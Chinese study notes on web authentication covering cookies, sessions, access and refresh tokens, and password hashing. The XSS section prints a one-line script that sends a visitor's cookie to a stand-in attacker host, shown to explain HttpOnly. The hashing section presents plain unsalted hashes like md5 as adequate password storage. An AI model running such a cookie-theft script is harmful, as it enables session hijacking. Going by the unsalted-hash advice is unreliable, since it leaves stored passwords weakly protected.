



参考：
Cookie、Session、Token、JWT：https://juejin.cn/post/6844904034181070861#heading-3

# 前后端 认证 授权 凭证

目录：
* Cookie
* Session
* Token(令牌)
* JWT
* 常见问题

## 一、Cookie
**Cookie 提出背景：**
Cookie是为了解决 HTTP 协议无状态特性的问题，而被提出的。

* HTTP 是**无状态**的协议（对于事务处理没有记忆能力，每次客户端和服务端会话完成时，服务端不会保存任何会话信息）：**每个请求都是完全独立**的，服务端**无法确认当前访问者的身份信息**，无法分辨上一次的请求发送者和这一次的发送者是不是同一个人。**所以服务器与浏览器为了进行会话跟踪（知道是谁在访问我），就必须主动的去维护一个状态**，这个状态用于告知服务端前后两个请求是否来自同一浏览器。而这个状态需要通过 Cookie 或者 session 去实现。

**Cookie特点：**
* Cookie 大小为4KB左右
* Cookie 存储在客户端： Cookie 是服务器发送到用户浏览器并保存在本地的一小块数据，它会在浏览器下次向**同一服务器**再发起请求时被携带在 HTTP头 中并发送到服务器上。如果使用Cookie保存过多数据会带来性能问题。
* Cookie一般用在这三个场景，不过随着localStorage的出现，现在购物车的工作Cookie承担的较少了。
    > 会话管理：登陆、购物车、游戏得分或者服务器应该记住的其他内容
    > 个性化：用户偏好、主题或者其他设置
    > 追踪：记录和分析用户行为
* 示例：
```JS
// 服务端 返回的Cookie格式
Set-Cookie: sessionid=aes7a8; HttpOnly; Path=/

// 客户端 获取Cookie, 也可set
document.cookie = "KMKNKK=1234;Sercure"
```

**Cookie 重要的属性:**
| 属性       | 说明                                                                                                                                                                                                                              |
| ---------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| name=value | 键值对，设置 Cookie 的名称及相对应的值，都必须是字符串类型- 如果值为 Unicode 字符，需要为字符编码。- 如果值为二进制数据，则需要使用 BASE64 编码。                                                                                 |
| domain     | 指定 Cookie 所属域名，默认是当前域名                                                                                                                                                                                              |
| path       | 指定 Cookie 在哪个路径（路由）下生效，默认是 '/'。如果设置为 /abc，则只有 /abc 下的路由可以访问到该 Cookie，如：/abc/read。                                                                                                       |
| maxAge     | Cookie 失效的时间，单位秒。如果为整数，则该 Cookie 在 maxAge 秒后失效。如果为负数，该 Cookie 为临时 Cookie ，关闭浏览器即失效，浏览器也不会以任何形式保存该 Cookie 。如果为 0，表示删除该 Cookie 。默认为 -1。- 比 expires 好用。 |
| expires    | 过期时间，在设置的某个时间点后该 Cookie 就会失效。一般浏览器的 Cookie 都是默认储存的，当关闭浏览器结束这个会话的时候，这个 Cookie 也就会被删除                                                                                    |
| secure     | 该 Cookie 是否仅被使用安全协议传输。安全协议有 HTTPS，SSL等，在网络上传输数据之前先将数据加密。默认为false。当 secure 值为 true 时，Cookie 在 HTTP 中是无效，在 HTTPS 中才有效。                                                  |
| httpOnly   | 如果给某个 Cookie 设置了 httpOnly 属性，则无法通过 JS 脚本 读取到该 Cookie 的信息，但还是能通过 Application 中手动修改 Cookie，所以只是在一定程度上可以防止 XSS 攻击，不是绝对的安全                                              |

**Cookie缺点：**
* Cookie 体积过小，存储量不能超过 4kb。
* 只能储存字符串。
* Cookie 是不可跨域的： 每个 Cookie 都会绑定单一的域名，无法在别的域名下获取使用，一级域名和二级域名之间是允许共享使用的（靠的是 domain）。
* Cookie 易被窃取和篡改，不安全。因此不要存储敏感数据，如用户密码，账户余额等。使用 httpOnly 在一定程度上提高安全性。
* 影响性能。浏览器的每次请求都会携带 Cookie 数据，会带来额外的性能开销（尤其是在移动环境下）。因此，新的浏览器API已经允许开发者直接将 数据 存储到本地。
* 一个浏览器针对一个网站最多存 20 个Cookie（现在一般有50个），浏览器一般只允许存放 300 个Cookie
* 移动端对 cookie、Session(基于cookie 实现) 的支持不是很好，一般采用的是 token


**XSS攻击：**
```JS
<script>window.open("atacker.com?cookie=" + document.cookie</script> 

// 当你访问这条帖子的内容时，浏览器就会执行 <script> 中的代码，导致你的 Cookie 被发送给攻击者，接着攻击者就可以利用你的 Cookie 登录论坛，然后为所欲为了
```
而当设置了 HttpOnly 后，ducoment.cookie 将获取不到 Cookie，攻击者的代码自然就无法生效了。

## 二、Session
* session 是另一种记录服务器和客户端会话状态的机制
* session 是基于 cookie 实现的，sessionId 存储在客户端浏览器的cookie 中,session 存储在服务器端。
* 客户端只需要存储 SessionID。具体映射的数据结构放在了服务端，因此跳出了仅仅浏览器 cookie 只可以存储 string 类型的限制。



* session 认证流程：
    > 用户第一次请求服务器的时候，服务器根据用户提交的相关信息，创建对应的 Session
    > 请求返回时将此 Session 的唯一标识信息 SessionID 返回给浏览器
    > 浏览器接收到服务器返回的 SessionID 信息后，会将此信息存入到 Cookie 中，同时 Cookie 记录此 SessionID 属于哪个域名
    > 当用户第二次访问服务器的时候，请求会自动判断此域名下是否存在 Cookie 信息，如果存在自动将 Cookie 信息也发送给服务端，服务端会从 Cookie 中获取 SessionID，再根据 SessionID 查找对应的 Session 信息，如果没有找到说明用户没有登录或者登录失效，如果找到 Session 证明用户已经登录可执行后面操作。


根据以上流程可知，SessionID 是连接 Cookie 和 Session 的一道桥梁，大部分系统也是根据此原理来验证用户登录状态。

## Cookie 和 Session 的区别

* 安全性： Session 比 Cookie 安全，Session 是存储在服务器端  按照指定规则完成的；Cookie 是存储在客户端的，通过 js 代码篡改。。
* 存取值的类型不同：Cookie 只支持存字符串数据，想要设置其他类型的数据，需要将其转换成字符串，Session 可以存任意数据类型。
* 有效期不同： Cookie 可设置为长时间保持，比如我们经常使用的默认登录功能，Session 一般失效时间较短，客户端关闭（默认情况下）或者 Session 超时都会失效。
* 存储大小不同： 单个 Cookie 保存的数据不能超过 4K，Session 可存储数据远高于 Cookie，但是当访问量过多，会占用过多的服务器资源。
* 传输数据量：session 存储在服务端，客户端仅保留换取 session 的用户凭证。因此传输数据量小，速度快。

## Session的不足：
* 服务器是有状态的。多台后端服务器无法共享 session。解决方法是，专门准备一台 session 服务器，关于 session 的所有操作都交给它来调用。而服务器之间的调用，可以走内网 ip，走 RPC 调用（不走 http）。


## 三、Token（令牌）
### Acesss Token
**访问资源接口（API）时所需要的资源凭证**
**简单 token 的组成:** uid(用户唯一的身份标识)、time(当前时间的时间戳)、sign（签名，token 的前几位以哈希算法压缩成的一定长度的十六进制字符串）

**特点：**
* 服务端无状态化、可扩展性好
* 支持移动端设备
* 安全
* 支持跨程序调用

**token 的身份验证流程：**


* 客户端使用用户名跟密码请求登录
* 服务端收到请求，去验证用户名与密码
* 验证成功后，服务端会签发一个 token 并把这个 token 发送给客户端
* 客户端收到 token 以后，会把它存储起来，比如放在 cookie 里或者 localStorage 里
* 客户端每次向服务端请求资源的时候需要带着服务端签发的 token
* 服务端收到请求，然后去验证客户端请求里面带着的 token ，如果验证成功，就向客户端返回请求的数据

**注 意：**

1. 每一次请求都需要携带 token，需要把 token 放到 HTTP 的 Header 里
2. 基于 token 的用户认证是一种服务端无状态的认证方式，服务端不用存放 token 数据。用解析 token 的计算时间换取 session 的存储空间，从而减轻服务器的压力，减少频繁的查询数据库
3. token 完全由应用管理，所以它可以避开同源策略

### Refresh Token

* 另外一种 token——refresh token
* refresh token 是专用于刷新 access token 的 token。如果没有 refresh token，也可以刷新 access token，但每次刷新都要用户输入登录用户名与密码，会很麻烦。有了 refresh token，可以减少这个麻烦，客户端直接用 refresh token 去更新 access token，无需用户进行额外的操作。



* Access Token 的有效期比较短，当 Acesss Token 由于过期而失效时，使用 Refresh Token 就可以获取到新的 Token，如果 Refresh Token 也失效了，用户就只能重新登录了。
* Refresh Token 及过期时间是存储在服务器的数据库中，只有在申请新的 Acesss Token 时才会验证，不会对业务接口响应时间造成影响，也不需要向 Session 一样一直保持在内存中以应对大量的请求。

### Token 和 Session 的区别

* Session 是一种**记录服务器和客户端会话状态的机制，使服务端 有状态化**，可以记录会话信息。而 **Token 是令牌，访问资源接口（API）时所需要的资源凭证**。Token **使服务端无状态化，不会存储会话信息**。
* **基于身份认证Token 安全性 比Session好**。因为每一个请求都有签名还能防止监听以及重放攻击，而 Session 就必须依赖链路层来保障通讯安全了。但是Session 和 Token 并不矛盾，可以一起合作。**如果你需要实现有状态的会话，仍然可以增加 Session 来在服务器端保存一些状态。**
* **如果你的用户数据可能需要和第三方共享，或者允许第三方调用 API 接口，用 Token 。如果永远只是自己的网站，自己的 App，用什么就无所谓了。**
    > 因为：所谓 Session 认证只是简单的把 User 信息存储到 Session 里，因为 SessionID 的不可预测性，暂且认为是安全的。而 **Token ，如果指的是 OAuth Token 或类似的机制的话，提供的是 认证 和 授权 ，认证是针对用户，授权是针对 App 。其目的是让某 App 有权利访问某用户的信息。**这里的 Token 是唯一的。不可以转移到其它 App上，也不可以转到其它用户上。**Session 只提供一种简单的认证，即只要有此 SessionID ，即认为有此 User 的全部权利。是需要严格保密的，这个数据应该只保存在站方，不应该共享给其它网站或者第三方 App**。

## 四、JWT
<!-- 未完待修 -->
# 五、哈希算法：
基于某些哈希算法生成指纹。（密码学哈希算法生成的值也称为：摘要值、算列、指纹），如：md5也是一种哈希算法。密码学哈希算法的主要特性有：
* 相同的消息总是能得到同样的摘要值
* 不管多长的消息，Hash运算非常快速
* 通过摘要值很难逆向计算出原始消息
* 原始消息一旦修改，即使是很轻微的修改，最终的摘要值也会产生变化。
* 很难找出两个不同的消息，并且它们的摘要值是相同的

因此，Hash算法能够实现密码学的某个目标，那就是消息防篡改。一般用于文件比较、身份校验。
* 文件比较：某个用户从互联网上下载了两个MP4格式的电影，但不确定是不是同一个电影。
* 身份校验：登录过程中需要用户名、密码，若将密码直接放在数据库中存储，一旦数据库发生泄露，所有用户的口令都会暴露，极不安全！考虑到Hash算法的一些特性，系统可以计算出口令的摘要值，然后存放到数据库中。
> > 1. 采用这种解决方案的原理就是摘要值是很逆向的，即使数据库泄露，攻击者也无法通过口令的摘要值计算出原始口令，攻击者很难伪造用户进行攻击。
>
> > 2. 系统具体如何校验用户的权限呢？大概的步骤如下：
> > 1). 用户输入用户名和口令登录微博或者微信。2). 系统使用Hash算法计算出口令的摘要值。3). 系统使用用户名和摘要值在数据库表中进行检索，一旦匹配到就说明该用户输入的口令是正确的。


## 五、常见问题
### 使用 cookie 时需要考虑的问题
* 因为存储在客户端，容易被客户端篡改，使用前需要验证合法性
* 不要存储敏感数据，比如用户密码，账户余额
* 使用 httpOnly 在一定程度上提高安全性
* 尽量减少 cookie 的体积，能存储的数据量不能超过 4kb
* 设置正确的 domain 和 path，减少数据传输
* cookie 无法跨域
* 一个浏览器针对一个网站最多存 20 个Cookie，浏览器一般只允许存放 300 个Cookie
* 移动端对 cookie 的支持不是很好，而 session 需要基于 cookie 实现，所以移动端常用的是 token


### 使用 session 时需要考虑的问题
* 将 session 存储在服务器里面，当用户同时在线量比较多时，这些 session 会占据较多的内存，需要在服务端定期的去清理过期的 session
* 当网站采用集群部署的时候，会遇到多台 web 服务器之间如何做 session 共享的问题。因为 session 是由单个服务器创建的，但是处理用户请求的服务器不一定是那个创建 session 的服务器，那么该服务器就无法拿到之前已经放入到 session 中的登录凭证之类的信息了。
* 当多个应用要共享 session 时，除了以上问题，还会遇到跨域问题，因为不同的应用可能部署的主机不一样，需要在各个应用做好 cookie 跨域的处理。
* sessionId 是存储在 cookie 中的，假如浏览器禁止 cookie 或不支持 cookie 怎么办？ 一般会把 sessionId 跟在 url 参数后面即重写 url，所以 session 不一定非得需要靠 cookie 实现
* 移动端对 cookie 的支持不是很好，而 session 需要基于 cookie 实现，所以移动端常用的是 token

### 使用 token 时需要考虑的问题
* 如果你认为用数据库来存储 token 会导致查询时间太长，可以选择放在内存当中。比如redis 很适合你对 token 查询的需求。
* token 完全由应用管理，所以它可以避开同源策略
* token 可以避免 CSRF 攻击(因为不需要 cookie 了)
* 移动端常用的是 token，因为移动端对 cookie 的支持不是很好，而 session 需要基于 cookie 实现。
